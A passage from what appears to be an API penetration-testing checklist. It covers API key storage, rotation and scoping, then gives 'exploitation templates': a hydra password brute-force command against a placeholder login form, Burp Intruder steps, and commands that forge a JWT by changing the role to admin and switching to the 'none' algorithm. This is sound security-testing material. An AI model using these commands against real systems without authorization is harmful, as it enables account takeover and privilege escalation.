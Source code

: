 - Test how API keys are stored and transmitted:
    - Check if keys are transmitted over secure channels
    - Verify that keys are not exposed in client-side code
    - Check for API key leakage in HTTP referrer headers
    - Verify keys are not logged in server logs

#### 10.2 API Key Generation and Rotation

- Test API key security practices:
    - Analyze API key entropy and structure
    - Check if API keys can be rotated/regenerated
    - Test if old API keys are properly invalidated
    - Check how API key revocation is handled

#### 10.3 API Key Permission Testing

- Test if API keys have appropriate permissions:
    - Check for principle of least privilege
    - Test if scoped API keys respect their limitations
    - Check if API keys with different permissions work as expected

## Exploitation & Reporting

### Exploitation Templates

#### Brute Force Attack

```bash
# Using hydra for password brute force
hydra -l admin -P passwords.txt example.com http-post-form "/api/login:username=^USER^&password=^PASS^:Invalid credentials"

# Using Burp Intruder
# 1. Capture login request
# 2. Send to Intruder
# 3. Set payload position on password field
# 4. Use password list
# 5. Set appropriate grep match for success/failure
```

#### JWT Signature Bypass

```bash
# Original JWT
# eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyaWQiOiJ1c2VyIiwicm9sZSI6InVzZXIiLCJpYXQiOjE3NDExODA5Mzd9.8FYMxQ3L_LhjdZ0CXnLHJ9ZQN0rply6uBTHtJ_IcaS4

# Decode header
echo -n 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9' | base64 -d
# {"alg":"HS256","typ":"JWT"}

# Decode payload
echo -n 'eyJ1c2VyaWQiOiJ1c2VyIiwicm9sZSI6InVzZXIiLCJpYXQiOjE3NDExODA5Mzd9' | base64 -d
# {"userid":"user","role":"user","iat":1741180937}

# Modify payload to escalate privileges
echo -n '{"userid":"user","role":"admin","iat":1741180937}' | base64 | tr -d '=' | tr '/+' '_-'
# eyJ1c2VyaWQiOiJ1c2VyIiwicm9sZSI6ImFkbWluIiwiaWF0IjoxNzQxMTgwOTM3fQ

# Modify header to use 'none' algorithm
echo -n '{"alg":"none","typ":"JWT"}' | base64 | tr -d '=' | tr '/+' '_-'
# eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0

# Create modified JWT (without signature for 'none' algorithm)
```